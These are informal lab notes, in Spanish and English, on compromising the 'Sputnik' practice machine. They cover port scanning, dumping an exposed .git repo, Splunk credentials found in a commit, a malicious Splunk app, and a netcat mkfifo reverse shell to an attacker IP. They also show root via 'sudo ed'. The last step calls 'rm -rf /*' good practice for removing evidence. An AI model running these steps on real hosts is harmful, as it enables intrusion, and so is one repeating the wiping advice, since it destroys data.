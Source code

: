 Tiene la funcion mkt definida en la zchrc (?)

bat (cat with steroids)

which whichSystem.py | xargs bat

nmap -p- --open  -sS --min-rate 5000 -vvv -n -Pn 192.168.0.40 -oG

(min rate tramita paquetes no mas lentos que  5000 paquetes por segundo)
og formato greepeable para que por medio de regex se pueda filtrar por lo que interesa

which extractPorts (utilidad que tiene en la zchrc).. script de bash

![[das.png]]

nmap -sCV -p 8089,55555,61337 192.168.0.40 -oN portscan

every ports are running an http server

APACHE HTTPD 2.4.29(UBUNTU)
we can search on google the codename.. it can be ubuntu trusty or another ubuntu..xenial , focal ... (it is informative)


HTTPD 2.4.29 LAUNCHPAD (ON GOOGLE)

ubuntu bionic 

https://launchpad.net/ubuntu/+source/apache2/2.4.29-1ubuntu4.4

splukd its the daemon (port 8089)

whatweb (to all the servers http)

whatweb http://192.168.0.40:8089
connection reset by peer 

whatweb http://192.168.0.40:55555
```c
http://192.168.0.40:55555 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[192.168.0.40], Script, Title[Flappy Bird Game]


```
flappy bird game.. it's a game from the 2013 maybe more recent

whatweb http://192.168.0.40:61337

```
cds@cds:~/Documentos/Workspace/Virtual machines/pentesting/Sputnik$ whatweb http://192.168.0.40:61337
http://192.168.0.40:61337 [303 See Other] Country[RESERVED][ZZ], HTML5, HTTPServer[Splunkd], IP[192.168.0.40], Meta-Refresh-Redirect[http://192.168.0.40:61337/en-US/], RedirectLocation[http://192.168.0.40:61337/en-US/], Title[303 See Other], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN]
http://192.168.0.40:61337/en-US/ [303 See Other] Cookies[session_id_61337], Country[RESERVED][ZZ], HTTPServer[Splunkd], HttpOnly[session_id_61337], IP[192.168.0.40], RedirectLocation[http://192.168.0.40:61337/en-US/account/login?return_to=%2Fen-US%2F], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN]
http://192.168.0.40:61337/en-US/account/login?return_to=%2Fen-US%2F [200 OK] Bootstrap, Cookies[cval,splunkweb_uid], Country[RESERVED][ZZ], HTML5, HTTPServer[Splunkd], IP[192.168.0.40], Meta-Author[Splunk Inc.], Script[text/json], probably Splunk, UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=edge]


```
this have a redirect, he said that is a splunk 
search and monitorize websites, another things, it's a service (blue team)

we are going to search on this

http://192.168.0.40:55555/.git/
It's a proyect of github, sometimes we recover the proyect with gitdumper and we can navigate over the project, resources and scripts. On this way it isnt very helpfull

https://github.com/arthaud/git-dumper
we clonate the repository
git clone https://github.com/arthaud/git-dumper
we go to the repository

now we are going  to use pip3 install -r requirements.txt (on the folder arthaud git dumper) !!!! DONT USE IT AS SUDO !!!!


```
er$ python3 git_dumper.py 
usage: git-dumper [options] URL DIR
git_dumper.py: error: the following arguments are required: URL, DIR
```

Now let's specify the arguments 

python3 git_dumper.py http://192.168.0.40:55555/.git/ project

we copy the project and we use the "project" folder
we cat on "index.html" on this folder to inspect. It is just the project of the page

git log (we use this and we are going to see the comits and different thigs that were happening)

we can watch inside the comits, with this way

git ls-tree 07fda135aae22fa7869b3de9e450ff7cacfbc717

```
    Initial commit
cds@cds:~/Documentos/Workspace/Virtual machines/pentesting/Sputnik/git-dump
100644 blob bdb0cabc87cf50106df6e15097dff816c8c3eb34    .gitattributes
100644 blob cd2946ad76b4402e5b3cab9243a9281aad228670    .gitignore
100644 blob 8f260dadbe40cdc656eb43c0c24401bdd4255bd0    README.md
100644 blob b7c6a79fd534ed19ab1708ac7a754ca1db28b951    index.html
100644 blob f4385198ce1cab56e0b2a1c55e8863040045b085    secret
100644 blob df45033222b87c64965dce38263e6d5948fb5ec1    sheet.png
100644 blob ad295422122860df7d9a4ef0c74de1e6deb67050    sprite.js
```
here is a "secret archive"

we are going to try to see it with 

git show f4385198ce1cab56e0b2a1c55e8863040045b085

NOTHING
```
fatal: bad object f4385198ce1cab56e0b2a1c55e8863040045b08
```

we go to logs , HEAD

http://192.168.0.41:55555/.git/logs/HEAD

we found this 

https://github.com/ameerpornillos/flappy.git 

So we are going to clone it 
git clone https://github.com/ameerpornillos/flappy.git    

and we are going to se in the git log, and on the git ls-tree to see al the comits of the same comit that has the secret archive

```
cds@cds:~/Documentos/Workspace/Virtual machines/pentesting/Sputnik/git-dumper/project$ git ls-tree 07fda135aae22fa7869b3de9e450ff7cacfbc717
100644 blob bdb0cabc87cf50106df6e15097dff816c8c3eb34    .gitattributes
100644 blob cd2946ad76b4402e5b3cab9243a9281aad228670    .gitignore
100644 blob 8f260dadbe40cdc656eb43c0c24401bdd4255bd0    README.md
100644 blob b7c6a79fd534ed19ab1708ac7a754ca1db28b951    index.html
100644 blob f4385198ce1cab56e0b2a1c55e8863040045b085    secret
100644 blob df45033222b87c64965dce38263e6d5948fb5ec1    sheet.png
100644 blob ad295422122860df7d9a4ef0c74de1e6deb67050    sprite.js

```

Now we put 
```
git show f4385198ce1cab56e0b2a1c55e8863040045b085
```
A MI ME SALE ESTA PIJA DE NUEVO 

fatal: bad object f4385198ce1cab56e0b2a1c55e8863040045b085

PERO AL CHABON LE SALE 
sputnik:ameer_says_thank_you_and_good_job

EL CHABON DICE QUE TOCAMOS UN SPLUNK (ESTO SUPUESTAMENTE ES UN SPLUNK exploit ... nombre de la pagina splunk)

infosecmachines.io (S4vitar machines)

we update this to the page of spelunk, on the app, its a script

https://github.com/TBGSecurity/splunk_shells/releases/tag/1.3
we must proportionate permisions to all apps on the website
https://github.com/TBGSecurity/splunk_shells 
THIS IS THE STEP BY STEP OF THE APP

now listen on 443

and we put this comand 
![[isten.png]]

hostname -I returns us the ip of the machine that we are , and we are splunk right now
```
hostname -I
192.168.0.41 
```
ip a its an important comand too



(pw-cat -otra cosa para ponerse en escucha)

if we want to have a bash console on netcat we must use this command 

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.22 443 >/tmp/f


script /dev/null -c bash (and its beter llok even)

TRATAMIENTO DE LA TTY

ctrl +z

stty raw -echo; fg

reset xterm

export TERM=xterm


```
splunk@sputnik:/$ sudo -l
[sudo] password for splunk: 
Matching Defaults entries for splunk on sputnik:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User splunk may run the following commands on sputnik:
    (root) /bin/ed
splunk@sputnik:/$ 

```
The password was the same of SPLUNK .. and we have permisions to execute /bin/ed as a root

```
sudo ed
!/bin/sh
```

whoami... 
root



now its a goot practice go to the / folder (raiz)

and remove all the evidences

cd /
rm -rf /* 2>/dev/null